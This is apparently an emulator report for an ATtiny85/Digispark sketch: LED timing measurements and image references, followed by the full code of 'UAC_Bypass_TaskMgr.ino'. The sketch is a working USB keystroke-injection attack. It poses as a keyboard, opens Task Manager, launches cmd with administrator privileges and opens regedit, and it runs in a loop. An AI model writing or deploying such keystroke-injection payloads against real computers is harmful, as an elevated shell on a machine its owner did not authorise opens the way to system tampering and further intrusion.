
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 103.9 s:

Timing chart, 0 to 105.4 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 4.4 s, → LOW 90.0 s later, → HIGH 9.4 s later

The sketch:

UAC_Bypass_TaskMgr.ino
```cpp
#include "DigiKeyboard.h"
#define KEY_TAB 0x2b
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(200);
  DigiKeyboard.println("taskmgr"); //starting taskmgr
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_F, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);//run
  DigiKeyboard.delay(500);
  DigiKeyboard.print("cmd");//start cmd
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);//turn on admin privileges
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //run
  DigiKeyboard.delay(200);
  DigiKeyboard.println("regedit");//start regedit

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```
